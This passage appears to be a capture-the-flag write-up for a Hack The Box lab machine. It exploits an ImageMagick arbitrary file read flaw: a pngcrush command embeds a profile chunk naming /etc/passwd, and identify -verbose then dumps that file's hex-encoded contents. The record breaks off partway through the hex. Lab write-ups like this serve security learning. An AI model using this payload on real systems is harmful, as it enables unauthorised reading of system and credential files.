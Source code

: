 ```
                                                                
```

Here is an interesting information

```
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 
```

This is the vulnerability 

https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html


So I did it this: 
```
┌──(cds㉿kali)-[~/Documents/htb/Prilgrimage/exploits]
└─$ pngcrush -text a "profile" "/etc/passwd" pngegg.png                                                    
  Recompressing IDAT chunks in pngegg.png to pngout.png
   Total length of data found in critical chunks            =     49124
   Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =     52445
CPU time decode 0.050937, encode 0.530020, other 0.003649, total 0.589868 sec
```

When I upload this file , I would be able to read the /etc/passwd file. And then I guess I would be able to get inside of the machine via ssh.

I downloaded the pictrure from the website, and i have this hexadecimal info on the picture, so when I  use 

```
identify -verbose file.png
```

I was able to see the /etc/passwd 

```
1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
```